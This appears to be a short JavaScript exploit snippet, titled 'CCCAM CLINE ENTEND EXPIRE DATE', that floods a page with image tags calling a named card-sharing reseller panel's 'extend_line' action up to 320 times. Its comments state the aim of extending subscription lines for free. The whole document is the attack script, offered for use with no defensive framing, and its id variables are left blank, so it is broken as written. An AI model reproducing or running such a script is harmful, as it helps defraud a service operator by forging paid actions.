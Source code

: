 # CCCAM CLINE ENTEND EXPIRE DATE

var pl = 'http://hsm4k.skypk.net/userpanel/official.php';

//how many time extand line for free
var ex = 320;

// line id
var lid = ;

//package id
var packid = ;


if (ex > 350)
{
    alert("null")
}
else
{
    var html = "";
    for (i = 0; i < ex; i++)
    {
        var ran = Math.random();
        html += '<img src="' + pl + '?action=extend_line&line_id=' + lid + '&package_id=' + packid + '&r=' + ran + '"/>';
    }

    document.body.innerHTML = html;

}
